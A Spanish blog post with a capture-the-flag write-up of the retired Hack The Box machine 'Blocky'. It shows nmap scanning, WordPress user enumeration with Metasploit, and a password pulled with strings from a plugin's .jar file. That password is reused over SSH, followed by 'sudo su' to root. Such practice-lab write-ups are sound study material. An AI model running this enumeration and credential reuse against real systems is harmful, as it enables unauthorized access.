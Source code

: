 ```yaml
---
layout: post
title:  "Writeup — HTB Blocky"
date:   2017-12-10 13:13:13
author: Andoni A.
categories: Writeups Seguridad
tags: linux writeup seguridad ctf
cover: "/assets/hacking_header.jpg"
---
```


Buenas, aprovechando que retiraban esta máquina, **Blocky**, de [HTB](hackthebox.eu) (hasta que no los retiran no está permitido publicar writeups sobre sus retos) quería
publicar mi primer writeup.

Esta máquina era bastante sencilla, lo más dificil era no perder el tiempo siguiendo alguna
"pista falsa".

- Como casi siempre, empezamos lanzando un escaneo con NMAP, veo un FTP, SSH y un Apache:
```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|_  256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
```
  - El Apache aloja a simple vista un WordPress, parece simular ser la web de un
   server de Minecraft.


- Con un módulo de enumeración de usuariosde WP descubrimos el usuario 'notch':
```
msf auxiliary(wordpress_login_enum) > run -j
[*] Auxiliary module running as background job 7.
[*] / - WordPress Version 4.8 detected
[*] 10.10.10.37:80 - / - WordPress User-Enumeration - Running User Enumeration
[+] / - Found user 'notch' with id 1
[+] / - Usernames stored in: /root/.msf4/loot/20171206134659_default_10.10.10.37_wordpress.users_138712.txt
```

  - Pruebo un par de contraseñas a mano pero nada...


- Para ver que más puede contener la web uso [dirb](https://tools.kali.org/web-applications/dirb) y descubro algunas urls
interesantes como:
  - http://10.10.10.37/phpmyadmin
    - Probamos el usuario notch con varias claves, nada...
  - http://10.10.10.37/plugins/
    - Contiene un par de .jar que descargo para ver si tienen algo interesante.


- Empiezo por 'BlockyCore.jar' ya que parece más "custom" que 'griefprevention-1.11.2-3.1.1.298.jar' y puede que tenga algún fallo:
  ```
  venom :: Machines/Blocky/BlockyCore_jar » strings com/myfirstplugin/BlockyCore.class
  com/myfirstplugin/BlockyCore
  java/lang/Object
  sqlHost
  Ljava/lang/String;
  sqlUser
  sqlPass
  <init>
  Code
          localhost
  root
  8YsqfCTnvxAUeduzjNSXe22
  LineNumberTable
  LocalVariableTable
  this
  Lcom/myfirstplugin/BlockyCore;
  onServerStart
  onServerStop
  onPlayerJoin
  TODO get username
  !Welcome to the BlockyCraft!!!!!!!
  sendMessage
  '(Ljava/lang/String;Ljava/lang/String;)V
  username
  message
  SourceFile
  BlockyCore.java
  ```

- Veo lo que parece un user/pass:
  ```
  root
  8YsqfCTnvxAUeduzjNSXe22
  ```

- Probamos en el login de WP pero no funciona, pruebo por SSH:
  ```
    venom :: Machines/Blocky » ssh root@10.10.10.37
    root@10.10.10.37's password:

    venom :: Machines/Blocky » ssh notch@10.10.10.37        
    notch@10.10.10.37's password:
    Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

    7 packages can be updated.
    7 updates are security updates.

    Last login: Fri Dec  8 02:16:15 2017 from 10.10.14.79
    notch@Blocky:~$
  ```
    - En el home de notch tenemos la **flag** del user.


- Y después con un simple 'sudo su' accedo al usuario 'root' y obtengo la flag.

Como he dicho, esta máquina era bastante sencilla aunque me costó un buen rato encontrar algo dentro de los .jar...

Espero poder sacar un rato y subir alguno de los retos que me parecieron
interesantes del CTF de la HoneyCON17.

*~ Saludos y que la fuerza os acompañe!*
